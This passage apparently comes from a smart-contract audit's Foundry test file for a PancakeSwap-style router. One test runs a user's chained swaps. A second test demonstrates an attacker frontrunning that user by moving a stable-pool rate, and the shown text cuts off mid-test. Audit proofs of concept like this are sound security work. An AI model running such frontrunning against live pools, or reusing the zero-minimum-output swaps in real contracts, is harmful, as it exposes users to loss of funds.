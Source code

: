 ```solidity
        //1 USDC ~ 0.99989 BUSDC

      (uint256 weth_usdc_ratio, uint256 cake_busdc_ratio, uint256 usdc_busdc_ratio) = _computeConvertionRatios(pathSwap1, pathSwap2, stableSwapPath, pairFlag);

      //@audit => Do the user's swap!

      bytes[] memory inputsUser = new bytes[](3);
      //@audit => swap 1 WBNB for USDC and leave the USDC on the router to do smth with them
        // @audit => Should get ~590 USDC
      inputsUser[0] = abi.encode(ActionConstants.ADDRESS_THIS, WETH_AMOUNT, 0, pathSwap1, true);

      //@audit => swap 250 CAKE for BUSDC and leave the BUSDC on the router to do smth with them
        // @audit => Should get ~520 BUSDC
      inputsUser[1] = abi.encode(ActionConstants.ADDRESS_THIS, CAKE_AMOUNT, 0, pathSwap2, true);

      //@audit => Do a StableSwap of USDC to BUSDC using the USDC received on the first swap!
        // @audit => In the end, the Router should have at least 1250 BUSDC after all the swaps are completed
      inputsUser[2] = abi.encode(ActionConstants.ADDRESS_THIS, ActionConstants.CONTRACT_BALANCE, 0, stableSwapPath, pairFlag, false);

      bytes memory commandsUser = abi.encodePacked(bytes1(uint8(Commands.V2_SWAP_EXACT_IN)), bytes1(uint8(Commands.V2_SWAP_EXACT_IN)), bytes1(uint8(Commands.STABLE_SWAP_EXACT_IN)));
      vm.prank(user);
      router.execute(commandsUser, inputsUser);

      uint256 busdcReceived = BUSDC.balanceOf(address(router));
      assert(busdcReceived > 1250e18);
      console.log("busdcReceived:" , busdcReceived);

    }


    function test_explotingLackOfMevProtection() public {
      (address[] memory pathSwap1, address[] memory pathSwap2, address[] memory stableSwapPath, uint256[] memory pairFlag) = _helperFunction();

      //Ratio of Conversion:
        //1 WBNB ~ 595.2e18 USDC
        //1 CAKE ~ 2.66 BUSDC
        //1 USDC ~ 0.99989 BUSDC

      (uint256 weth_usdc_ratio, uint256 cake_busdc_ratio, uint256 usdc_busdc_ratio) = _computeConvertionRatios(pathSwap1, pathSwap2, stableSwapPath, pairFlag);

      //@audit => Attacker frontruns the users tx and manipulates the rate on the USDC/BUSDC StablePool!
      bytes[] memory inputsAttacker = new bytes[](1);
      inputsAttacker[0] = abi.encode(ActionConstants.MSG_SENDER, ATTACKER_BUSDC_AMOUNT, 0, stableSwapPath, pairFlag, true);

      bytes memory commandsSttacker = abi.encodePacked(bytes1(uint8(Commands.STABLE_SWAP_EXACT_IN)));
      vm.prank(attacker);
      router.execute(commandsSttacker, inputsAttacker);

      uint256 busdcAttackerReceived = BUSDC.balanceOf(address(attacker));
      console.log("Attacker busdcReceived:" , busdcAttackerReceived);

      //@audit => Do the user swap
      bytes[] memory inputsUser = new bytes[](3);
      //@audit => swap 1 WBNB for USDC and leave the USDC on the router to do smth with them
```